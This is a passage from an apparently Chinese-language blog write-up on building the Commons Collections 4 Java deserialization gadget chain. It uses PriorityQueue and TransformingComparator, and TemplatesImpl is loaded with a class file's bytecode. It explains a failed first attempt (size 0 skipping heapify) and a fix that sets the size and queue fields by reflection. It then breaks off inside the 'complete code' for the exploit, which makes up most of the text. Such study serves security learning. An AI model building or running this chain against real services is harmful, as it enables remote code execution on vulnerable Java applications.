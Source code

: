 但是运行并没有成功利用，在heapify处打上断点

发现size=0，i初始值为-1，进不了for循环。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240802144327398.png)

这里有两种方式解决

### 反射修改size

这里可以反射修改size

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
TransformingComparator transformingComparator = new TransformingComparator<>(chainedTransformer,null);
PriorityQueue<Object> priorityQueue = new PriorityQueue<>(1,transformingComparator);
Field size = PriorityQueue.class.getDeclaredField("size");
size.setAccessible(true);
size.set(priorityQueue,2);
serialize(priorityQueue);
```

不过会报尝试访问数组中不存在的索引。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240802145143841.png)

我是改字段大王。错误发生在序列化时，依次序列化queue数组元素，但越界读取，再反射修改queue就完事。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240802145257303.png)

完整代码：

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class CC4PriorityQueue {
    public static void main(String[] args) throws Exception {
        byte[] code1 = Files.readAllBytes(Paths.get("E:\\CODE_COLLECT\\CC6TiedMapEntry2.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
```